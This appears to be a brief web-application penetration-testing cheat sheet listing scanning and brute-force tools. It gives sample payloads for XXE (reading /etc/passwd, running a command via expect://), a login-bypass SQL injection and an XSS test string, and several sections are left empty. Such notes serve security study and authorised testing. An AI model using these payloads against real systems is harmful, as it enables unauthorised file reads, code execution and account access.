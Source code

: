 ```yaml
---
layout: page
title: Web App
permalink: /web/
---
```


# Index

* [Enumeration](#enumeration)
* [Authentication](#authentication)
* [Session Management](#session-management)
* [XML External Entity](#xml-external-entity)
* [SQL Injection](#sql-injection)
* [Cross Site Scripting](#cross-site-scripting)
* [Deserialization](#deserialization)
* [Other Tools](#other-tools)
* [Methodology](#methodology)

## Enumeration

Enumerating a web application is best performed manually with automated augmentations.

### Spidering

`burpsuite`

### Directory Brute Forcing

`dirbuster`

### Web Server Scanning

`nikto`

---

## Authentication

### Brute Forcing Online

`hydra`

---

## Session Management

---

## XML External Entity

Local file inclusion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Remote code exectuion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
Above is just proof of concept, other functions exist.

---

## SQL Injection

Suppose a SQL query like below, where parameters are received from user input

```SQL
SELECT id FROM users WHERE username='$username' AND password='$password';
```

If we managed to input data like below we could return unintended data.

```SQL
SELECT username FROM users WHERE username='' or '1'='1' AND password='' or '1'='1'
```

We can also save a request in burp and feed it into `sqlmap` or fuzz with `sqlmap` directly.
```
sqlmap
```

---

## Cross Site Scripting

Wherever user input is reflect in the site test for XSS with:

``` Javascript
    <script>alert('x')</script>
```

---

## Deserialization

---

## Other Tools

* FoxyProxy - simple proxy switcher for firefox
* w3af - Web Application Scanner
* wikto/Nikto - Web server scanner
* Firebug/Chrome Dev tools - Inspecting client side
* Hydra - Password brute forcing
* wpscan - Scan wordpress
* droopscan - scan Drupal & Silverstripe CMS

### Unix Commands

* wget - easily download files
* curl - can make post requests too
* ncat - tcp/ip swiss army knife
* socat - two way netcat
* stunnel - ssl tunnel

---

## Methodology

See:
* The Web Application Hacker's Handbook - Chapter 21
* https://jdow.io/blog/2018/03/18/web-application-penetration-testing-methodology/
